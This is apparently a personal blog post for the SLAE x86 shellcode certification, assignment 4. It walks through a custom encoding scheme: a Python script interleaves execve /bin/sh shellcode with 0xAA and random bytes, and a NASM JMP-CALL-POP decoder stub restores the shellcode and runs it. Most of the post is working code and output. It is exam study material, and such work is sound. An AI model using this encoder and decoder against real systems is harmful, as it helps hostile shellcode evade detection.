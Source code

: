 ```yaml
---
title:  "SLAE x86 Assignment 4: Custom Encoding Scheme"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will look at assignment 4 of the SLAE x86 certification. Let's dive right in!

## Understanding The Objective ##
This assignment requires us to write a custom encoding scheme, accompanied with a decoding stub in order for the shellcode to be executed. So this is my take on this assignment:

- First, a python script will be used to encode the shellcode. Each byte of the shellcode will be appended by 0xAA, followed by a random number.
- The decoder will be written in assembly. This decoder stub will contain our encoded shellcode. Once the shellcode has been decoded, execution will be passed to it.

So let's start with the encoder script! We will first need to extract the ```execve-stack``` shellcode:
```
$ objdump -d ./execve-stack|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

```python
#SLAE x86 Assignment 4: Custom Encoder Script
#Author: 4p0cryph0n
#Website: https://4p0cryph0n.github.io

#!/usr/bin/python

import sys
import random

execve = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

#If length is an odd no. add a nop at the end to make even

if len(bytearray(execve)) % 2 != 0:
	bytearray(execve).append(0x90)

encoded2 = ""

#add 0xaa followed by a random byte after each byte of the shellcode

for x in bytearray(execve):

	encoded2 += '0x'
	encoded2 += '%02x,' % x
	encoded2 += '0x%02x,' % 0xAA + '0x%02x,' % random.randint(1,255)

print encoded2
```
This script will first check whether the length of the shellcode is odd or even, depending upon which it will add a ```NOP``` at the end. This is to help with encoding groups of bytes. Then, the encoding process starts, and is outputted in a format which is supported by nasm. I will manually be adding a byte at the end of this output, which will serve as a marker. This will tell our decoder stub when to stop with the decoding process. This byte will be ```\xde```.

```
$ python encoder.py
0x31,0xaa,0xc4,0xc0,0xaa,0xa3,0x50,0xaa,0x6d,0x68,0xaa,0x6c,0x2f,0xaa,0x66,0x2f,0xaa,0xc7,0x73,0xaa,0x74,0x68,0xaa,0xc7,0x68,0xaa,0x88,0x2f,0xaa,0xd1,0x62,0xaa,0x58,0x69,0xaa,0x5e,0x6e,0xaa,0x12,0x89,0xaa,0x65,0xe3,0xaa,0xaf,0x50,0xaa,0xf5,0x89,0xaa,0x9e,0xe2,0xaa,0x25,0x53,0xaa,0x79,0x89,0xaa,0x69,0xe1,0xaa,0x26,0xb0,0xaa,0xd6,0x0b,0xaa,0x60,0xcd,0xaa,0x54,0x80,0xaa,0xc2,

add \xde at the end
```
Okay so now we have our output. Let's write the decoder stub. The idea is to essentially skip the two bytes added, and eliminate them to arrive at our decoded shellcode:
```nasm
; SLAE Assignment 4: Custom Decoder (Linux/x86)
; Author:  4p0cryph0n
; Website:  https://4p0cryph0n.github.io

global _start

section .text

_start:

	jmp short call_shellcode

decoder:
	pop esi
	lea edi, [esi +1]
	xor eax, eax
	mov al, 1
	xor ebx, ebx

decode:
	mov bl, byte [esi + eax]
	xor bl, 0xde
	jz short EncodedShellcode
	mov bl, byte [esi + eax + 2]
	mov byte [edi], bl
	inc edi
	add al, 3
	jmp short decode


call_shellcode:

	call decoder
	EncodedShellcode: db 0x31,0xaa,0xc4,0xc0,0xaa,0xa3,0x50,0xaa,0x6d,0x68,0xaa,0x6c,0x2f,0xaa,0x66,0x2f,0xaa,0xc7,0x73,0xaa,0x74,0x68,0xaa,0xc7,0x68,0xaa,0x88,0x2f,0xaa,0xd1,0x62,0xaa,0x58,0x69,0xaa,0x5e,0x6e,0xaa,0x12,0x89,0xaa,0x65,0xe3,0xaa,0xaf,0x50,0xaa,0xf5,0x89,0xaa,0x9e,0xe2,0xaa,0x25,0x53,0xaa,0x79,0x89,0xaa,0x69,0xe1,0xaa,0x26,0xb0,0xaa,0xd6,0x0b,0xaa,0x60,0xcd,0xaa,0x54,0x80,0xaa,0xc2, 0xde
```
The address of our encoded shellcode is first popped into ```esi``` using the ```JMP-CALL-POP``` technique. ```edi``` is loaded with the address of the second byte. A counter is initialized with ```eax```, which will be used to keep track of the closest byte next.

The second byte is then stored in ```ebx```, and the instruction after that runs a check for whether we have reached the end. In that case, we jump and pass execution. Otherwise, we move the value of the next important byte in ```ebx```, which is at ```[esi + eax + 2]```. This is because we have two junk bytes. We move the important byte in place of the second byte, and we increment the counter that keeps track of the important bytes.

We add 3 to the counter that keeps track of the closest byte next, and we continue this process until the end is reached.
